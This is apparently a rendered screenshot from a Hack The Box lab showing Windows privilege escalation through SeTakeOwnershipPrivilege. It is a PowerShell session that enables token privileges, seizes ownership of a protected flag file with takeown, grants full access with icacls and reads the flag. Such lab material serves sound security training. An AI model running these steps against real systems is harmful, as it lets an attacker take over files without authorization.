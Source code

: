 # SeTakeOwnershipPrivilege Example

<pre>PS C:\Users\htb-student\Documents> Import-Module .\EnableAllTokenPrivs.ps1



PS C:\Users\htb-student\Documents> .\EnableAllTokenPrivs.ps1



PS C:\Users\htb-student\Documents> whoami /priv

PRIVILEGES INFORMATION

----------------------

Privilege Name                Description                              State

============================= ======================================== =======

SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled

SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled



PS C:\Users\htb-student\Documents> Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={(Get-Acl $_.FullName).Owner}}

FullName            LastWriteTime        Attributes Owner

--------            -------------        ---------- -----

C:\TakeOwn\flag.txt 6/4/2021 11:24:47 AM    Archive



PS C:\Users\htb-student\Documents> takeown /f 'C:\TakeOwn\flag.txt'

SUCCESS: The file (or folder): "C:\TakeOwn\flag.txt" now owned by user "WINLPE-SRV01\htb-student".



PS C:\Users\htb-student\Documents> Get-ChildItem -Path 'C:\TakeOwn\flag.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={(Get-Acl $_.FullName).Owner}}

FullName            LastWriteTime        Attributes Owner

--------            -------------        ---------- -----

C:\TakeOwn\flag.txt 6/4/2021 11:24:47 AM    Archive WINLPE-SRV01\htb-student



PS C:\Users\htb-student\Documents> cat 'C:\TakeOwn\flag.txt'

cat : Access to the path 'C:\TakeOwn\flag.txt' is denied.

At line:1 char:1

+ cat 'C:\TakeOwn\flag.txt'

+ ~~~~~~~~~~~~~~~~~~~~~~~~~

    + CategoryInfo          : PermissionDenied: (C:\TakeOwn\flag.txt:String) [Get-Content], UnauthorizedAccessException

    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand



PS C:\Users\htb-student\Documents> icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F

processed file: C:\TakeOwn\flag.txt

Successfully processed 1 files; Failed processing 0 files



PS C:\Users\htb-student\Documents> cat 'C:\TakeOwn\flag.txt'

1m_th3_f1l3_0wn3r_n0W!</pre>